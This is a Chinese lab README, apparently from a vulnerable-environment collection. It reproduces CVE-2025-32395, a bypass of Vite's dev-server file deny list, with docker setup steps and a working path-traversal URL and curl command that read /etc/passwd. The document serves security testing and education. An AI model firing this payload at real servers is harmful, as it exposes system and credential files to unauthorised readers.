


# Vite开发服务器任意文件读取漏洞绕过（CVE-2025-32395）

Vite是一个现代前端构建工具，为Web项目提供更快、更精简的开发体验。它主要由两部分组成：具有热模块替换（HMR）功能的开发服务器，以及使用Rollup打包代码的构建命令。

在Vite 6.2.6, 6.1.5, 6.0.15, 5.4.18 和 4.5.13版本之前，用于限制访问Vite服务允许列表之外的文件的`server.fs.deny`功能可被绕过。通过在URL中通过不合法 url `/@fs/{{project_path}}/#/../../../../../../etc/passwd`，攻击者可以读取文件系统上的任意文件。

此漏洞发生的原因是，在请求处理过程中 url path 中的不合法字符 `#` 在不同位置的处理不同，导致安全检查被绕过。

这个漏洞是[CVE-2025-31486](../CVE-2025-31486/README.zh-cn.md)补丁的绕过。

参考链接：

- <https://github.com/vitejs/vite/security/advisories/GHSA-356w-63v5-8wf4>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-32395>

## 环境搭建

执行以下命令启动Vite 6.2.5开发服务器：

```
docker compose up -d
```

服务器启动后，可以通过访问`http://your-ip:5173`来访问 Vite 开发服务器。

> 注意：旧版本Vite的开发服务器默认端口为3000，新版本默认端口为5173，请注意区分。

## 漏洞复现

靶场中的 project_path 为：`/usr/src/`，可以通过访问 `/@fs/etc/passwd` 从响应中获取



下一步通过访问`/@fs/{{project_path}}/#/../../../../../etc/passwd`，你就可以绕过这个限制并获取文件内容：

```
curl --request-target /@fs/Users/doggy/Desktop/vite-project/#/../../../../../etc/passwd http://localhost:5173
```

这个请求将会返回`/etc/passwd`文件的内容：



> 注意：`curl` 直接输入 url 的情况下会去除 url 中不合法的 `#` 字符
>
> 再注： Burp 处理 url 中不合法的 `#` 字符也有问题
